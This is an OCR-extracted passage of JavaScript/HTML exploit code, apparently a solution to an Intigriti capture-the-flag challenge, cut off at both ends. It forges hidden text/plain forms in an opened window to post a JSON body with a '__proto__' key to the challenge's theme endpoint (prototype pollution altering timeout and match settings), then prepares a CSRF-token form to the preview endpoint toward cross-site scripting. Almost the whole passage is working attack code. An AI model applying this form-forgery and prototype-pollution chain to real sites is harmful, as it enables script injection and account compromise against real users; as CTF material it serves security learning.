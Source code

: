 ```html
            let route = URL + '/login.php?name=';
            route += encodeURIComponent(name);
            w = window.open(route, 'window');
            return w;
        }
    // perform the proto pollution
        async function prototype_pollution() {
            w.location.href = '/empty';
            await sleep(2000);
            w.document.body.innerHTML = `
            <form id=f action="https://challenge-0822.intigriti.io/challenge/theme.php" method="POST" enctype="text/plain">
                <input id=i type="hidden" name='' value='' />
            </form>
            `;
            w.i.name = `
            {
                "primary": {
                    "text": {
                        "dark": "#1337",
                        "light": "#1337"
                    },
                    "bg": {
                        "dark": "#1337",
                        "light": "#1337"
                    }
                },
                "__proto__":{
                    "timeout":{
                        "dark":99999,
                        "light":99999
                    },
                    "match":{
                        "dark":1,
                        "light":1
                    }
                },
                "secondary": {
                    "text": {
                        "dark": "#1337",
                        "light": "#1337"
                    },
                    "bg": {
                        "dark": "#1337",
                        "light": "#1337"
                    },
                    "x":"
            `.replace(/\s/g, '')
            w.i.value = '"}}';
            w.f.submit();
            return w;
        }

        async function xss(token){
            w.location.href = '/empty';
            await sleep(2000);
            w.document.body.innerHTML = `
            <form id=f action="https://challenge-0822.intigriti.io/challenge/preview.php" method="POST">
                <input id=c type="hidden" name="csrf-token" value="" />
                <input id=n type="hidden" name="name" value="" />
                <input id=d type="hidden" name="desc" value="" />
            </form>
```